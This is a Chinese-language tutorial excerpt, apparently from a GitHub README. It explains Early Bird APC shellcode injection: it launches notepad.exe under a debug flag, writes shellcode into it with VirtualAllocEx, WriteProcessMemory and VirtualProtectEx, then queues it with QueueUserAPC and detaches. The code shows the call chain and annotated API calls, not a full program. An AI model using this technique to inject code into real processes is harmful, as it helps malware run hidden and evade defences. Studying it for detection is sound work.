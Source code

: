 ## 🛠️ 实现步骤

### 核心函数调用链

```
main()
  └─> ReadShellcodeFile()           // 读取 shellcode 文件
  └─> CreateDebuggedProcess()       // 创建调试进程
        └─> CreateProcessA()        // DEBUG_PROCESS 标志 ★
  └─> InjectShellcode()             // 注入 shellcode
        ├─> VirtualAllocEx()        // 分配内存
        ├─> WriteProcessMemory()    // 写入 shellcode
        └─> VirtualProtectEx()      // 修改为可执行
  └─> QueueAPCToThread()            // 队列 APC ★
        └─> QueueUserAPC()          // 加入 APC 队列
  └─> DebugActiveProcessStop()      // 停止调试，进程继续运行 ★
```

### 关键 API 说明

#### 1. CreateProcessA - 创建调试进程
```c
BOOL success = CreateProcessA(
    NULL,                       // 应用程序名
    "C:\\Windows\\System32\\notepad.exe",  // 命令行
    NULL,                       // 进程安全属性
    NULL,                       // 线程安全属性
    FALSE,                      // 不继承句柄
    DEBUG_PROCESS |             // 调试模式（进程挂起）★
    DEBUG_ONLY_THIS_PROCESS,    // 仅调试此进程
    NULL,                       // 环境变量
    NULL,                       // 当前目录
    &si,                        // 启动信息
    &pi                         // 进程信息（返回）
);
```

**关键点**：
- `DEBUG_PROCESS` 标志使进程以挂起状态创建
- 主线程已创建但尚未开始执行
- 为注入 APC 提供时间窗口

#### 2. QueueUserAPC - 队列 APC
```c
BOOL success = QueueUserAPC(
    (PAPCFUNC)shellcodeAddr,    // APC 函数地址（shellcode）★
    hThread,                    // 目标线程句柄
    0                           // 传递给 APC 函数的参数
);
```

**关键点**：
- `PAPCFUNC` 类型：`VOID CALLBACK ApcProc(ULONG_PTR dwParam)`
- Shellcode 必须遵循此调用约定
- APC 队列是 FIFO（先进先出）
